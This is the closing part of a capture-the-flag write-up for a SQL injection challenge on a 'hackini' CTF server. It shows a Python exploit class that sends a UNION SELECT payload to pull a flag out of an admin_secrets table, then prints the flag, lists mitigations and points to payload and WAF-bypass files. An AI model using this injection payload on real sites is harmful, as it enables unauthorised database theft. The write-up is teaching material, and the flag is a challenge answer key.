 ```python
        payload = "' UNION SELECT flag,null,null FROM admin_secrets --"
        response = self.session.get(
            f"{self.base_url}/search",
            params={'q': payload}
        )
        flag_match = re.search(r'hackini\{[^}]+\}', response.text)
        return flag_match.group(0) if flag_match else None

# Usage
exploit = SQLInjectionExploit("http://challenge.hackini.dz")
exploit.test_injection()
flag = exploit.extract_flag()
print(f"Flag found: {flag}")
```

## Flag

```
hackini{sql_1nj3ct10n_w4f_byp4ss_m4st3r_2024}
```

## Mitigation Techniques

1. **Use Parameterized Queries**: Always use prepared statements
2. **Input Validation**: Implement strict input validation
3. **WAF Configuration**: Properly configure Web Application Firewall
4. **Principle of Least Privilege**: Database users should have minimal
   permissions
5. **Error Handling**: Don't expose database errors to users

## Files

- exploit.py - Complete exploitation script
- payloads.txt - List of tested payloads
- waf_bypass.txt - WAF bypass techniques

## References

- [OWASP SQL Injection Prevention](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger SQL Injection Guide](https://portswigger.net/web-security/sql-injection)
- [WAF Bypass Techniques](https://github.com/0xInfection/Awesome-WAF)

---

_This writeup is for educational purposes to understand web application
security._
